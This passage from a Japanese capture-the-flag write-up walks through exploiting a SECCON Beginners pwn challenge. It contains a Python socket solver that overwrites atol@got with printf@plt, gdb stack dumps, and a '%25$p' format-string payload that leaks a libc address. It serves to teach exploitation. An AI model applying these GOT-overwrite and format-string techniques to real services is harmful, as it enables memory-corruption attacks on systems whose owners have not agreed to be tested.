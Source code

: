 `malloc@got`を`*buffer`に格納して，`'a'*8 + printf@plt`のように書き込むことで8バイト分の余白を持たせつつ`atol@got`を`printf@plt`に書き換えることができます．

ここまででのソルバーのコードはこんな感じ．問題の構造を理解するために`pwntools`などは使わずにやってみます(素人すぎて使い方知らないだけ)．
```python
import socket, time, telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('es.quals.beginners.seccon.jp', 9003))

print(s.recv(2048).decode())
time.sleep(1)

s.sendall(b'-2\n')
time.sleep(1)

print(s.recv(2048).decode())

print("[info] overwrite buffer address to atol@got")
s.sendall(str(0x601038).encode()) # malloc
# s.sendall(str(0x601040).encode()) # atol
# time.sleep(1)

print(s.recv(2048).decode())
time.sleep(1)

print("[info] overwrite atol@got to printf@plt")
s.sendall(b"a"*8 + (0x400590).to_bytes(8, 'little') + b'\n') # printf
# s.sendall((0x400590).to_bytes(8, 'little'))
time.sleep(1)
print(s.recv(2048))
```
念のため各処理のあと１秒スリープさせています．
ここで注意して欲しいのは`malloc@got`をアドレスを書き込む時です．最初は`(0x601038).to_bytes(8, 'little')`のようにリトルエンディアンに変換して書き込んでいたんですが，これではうまくいきません．入力された値は`read`で文字列で読み込まれて`atol`でlongに変換されるのでバイト列で入力したら意図した値を書き込めないんですね〜．素直にアドレスの数値を書き込みましょう．ここ少しはまりました．何はともあれこれでステップ１は完了です．次にいきましょう．

#### ステップ2
ステップ２はprintf関数を使用してformat string attackを行いlibcのアドレスをリークします．
format string attackについては[こちらの記事](https://ptr-yudai.hatenablog.com/entry/2018/10/06/234120)を参照してください．
libcのベースアドレスを取得するためにprintf関数を実行している時のスタックをみてみます．
```
gdb-peda$ x/32g $rsp
0x7fffffffddd0:	0x0000000000000001	0x00000001f7ffe170
0x7fffffffdde0:	0x0000000000602260	0x0000000000000000
0x7fffffffddf0:	0x0000000000000002	0x000000000040087d
0x7fffffffde00:	0x00007ffff7de59a0	0x0000000000000000
0x7fffffffde10:	0x0000000000400830	0x00000000004005f0
0x7fffffffde20:	0x00007fffffffdf10	0x0000000000000000
0x7fffffffde30:	0x0000000000400830	0x00007ffff7a05b97
```
こんな感じです．libcのアドレスは実行ごとに変化するので確定した値はありませんが，毎回末尾に`b97`が現れるメモリがありますね．このメモリの値が差す場所をみてみます．
```
gdb-peda$ x/4wx 0x7ffff7a05b97
0x7ffff7a05b97 <__libc_start_main+231>:	0x82e8c789	0x48000215	0xed23058b	0xc148003c
```
こんな感じになっており，ここが`__libc_start_main+231`であることがわかります．というわけで`%[n]$p`で番号を指定してアドレスを取得します．他の方のwrite upでは25を指定しています．どうやって25というのがわかったんでしょう．僕はやり方がわからなかったので頑張って番号をインクリメントしながら探しました．というわけで25を指定すればlibcのアドレスがわかります．
```python
print("[info] address leak by format string attack")
s.sendall(b"%25$p" + b'\n')
time.sleep(1)

print(s.recv(2048))
```